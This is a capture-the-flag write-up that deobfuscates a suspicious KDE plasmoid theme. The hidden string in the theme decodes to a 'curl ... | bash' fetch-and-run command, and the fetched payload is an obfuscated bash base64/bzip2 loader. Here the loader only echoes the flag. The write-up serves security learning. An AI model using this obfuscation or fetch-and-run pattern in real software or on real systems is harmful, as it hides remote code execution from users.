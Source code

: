 Solution  
Look at the file plasmoids/susbutton/contents/ui/main.qml and sus.qml  
The code logic is in main.qml but the variables is in sus.qml. But if translate to python, it does this:  
```
var1   = "clts/acmtifa55d3ao.t s rhp/tiuc."
var2  = "/21d72pldx|a u t:st.dfocf587/yat bh"
var3  = r"/2pldx|Mopqfa99\gyat"
e   = var1 + var2 + var3

l     = 45
denom = 67

zeqzoq = "".join(e[(l*k) % 67] for k in range(l))
zeqzoq += "".join(e[(l*k) % denom] for k in range(l, 67))

print(zeqzoq)
# printed => curl https://static.umdctf.io/fc2af155d587d723/payload.txt | bash
```

Then just run the curl  

```
┌──(zeqzoq㉿zeqzoq)-[~]
└─$ curl https://static.umdctf.io/fc2af155d587d723/payload.txt
  "${@//a2::}"  b"a""s"${@,,}h  ${@//+dIsf/6j=V,}   "${@,}"   <<< "$(    "${@%|:Ye3c}" ${*~}   p""r\i$'\u006e'${*#uGE;Y}t$'\x66'  'QlpoOTFBWSZTWV6+ejAAABOfgECBgAkNAgYAv+/+CiAASIkG1A0aAeU9MoNCKNGEPQIaDCM0Qeq7JjaChSBUQyjnHBfDcziPcgeyD7qxoCheMPpv/DUmqA4vWAxSYbGoBdFjcXckU4UJBevnowA=' ${*^} "${@//ET,\!KUP}"  |   ${*^}   $'\x62''a'${*/CP@h\)6}se''"6"4   -d "${@//X~\}8n/E?\`FJa8}"  | ${@,} ${*//qb15\)$v} bu""nz''ip$((   (-(-(17#1--${*//Lx>vi%P\\}2"${@~~}"1#"1")+8"${@/fhA+3}"#0))   ))  -c   ${*,,} "${@//QB3q^du4}"     )"   "${@,}" "${@//MBAu2D}"
```

decode in cyberchef with From Base64 and Bzip2 Decompress then got  
`echo 'UMDCTF{kde_global_themes_can_be_quite_sus}' > /tmp/.flag; rm /tmp/.flag`  

Flag: `UMDCTF{kde_global_themes_can_be_quite_sus}`



Solved by: zeqzoq
